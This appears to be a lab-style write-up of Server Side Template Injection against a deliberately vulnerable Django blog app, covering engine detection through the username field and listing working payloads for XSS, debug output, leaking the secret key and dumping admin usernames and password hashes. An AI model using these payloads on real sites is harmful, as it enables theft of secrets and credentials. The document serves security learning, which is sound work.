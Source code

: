 # Server Side Template Injection

Observe the [Setting Page](https://blog-vul.herokuapp.com/setting/), you can see that username is a dynamic content and displayed __Hi, Username__.

![Web page display username](https://user-images.githubusercontent.com/83699106/132437761-05b5e2dc-98e0-4c50-8cb2-7e9e0c9c33b1.png)

### 1. Detect

Register an account.You will be realized that it don't control the username format and this web use Django framwork. So you can register an account with an special username.


#### Identify the underlying engine.

Python has some template engine such as Tornaldo, Jinja, Django, ... . Now , sign up an account with username is a formula evaluation. 

`{{ 7 * 7 }}`

But it doesn't work. 
![image](https://user-images.githubusercontent.com/83699106/132441238-1b673cff-9fd0-4fd6-b0c1-d11cb83bec05.png)


Maybe it use Django template because DJT do not allow formula evaluation by default. Trying another payload.

`{% debug %}`

![image](https://user-images.githubusercontent.com/83699106/132442170-d95e57e5-9147-4592-bc53-ef614f8ca80d.png)


__Successfully__, It displayed debug content in username. 

### 2. Exploit

After indentify the template engine that it's using is DJT. We can exploit futher. The impact of this attack in DJT is not serious than other template languages and these are some payload you can use to exploit.

__Cross-site scripting__
```
{{ '<script>alert(3)</script>' }}
{{ '<script>alert(3)</script>' | safe }}

```

__Debug information leak__
```

{% debug %}

```

__Leaking app’s Secret Key__
```
{{ messages.storages.0.signer.key }}

```
__Admin username and password hash leak__
```
{% load log %}{% get_admin_log 10 as log %}{% for e in log %}
{{e.user.get_username}} : {{e.user.password}}{% endfor %}

```

To clear understand about SSTI attack and Ways to exploit Django template above. You can see [here](https://lifars.com/wp-content/uploads/2021/06/Django-Templates-Server-Side-Template-Injection-v1.0.pdf)
           
        
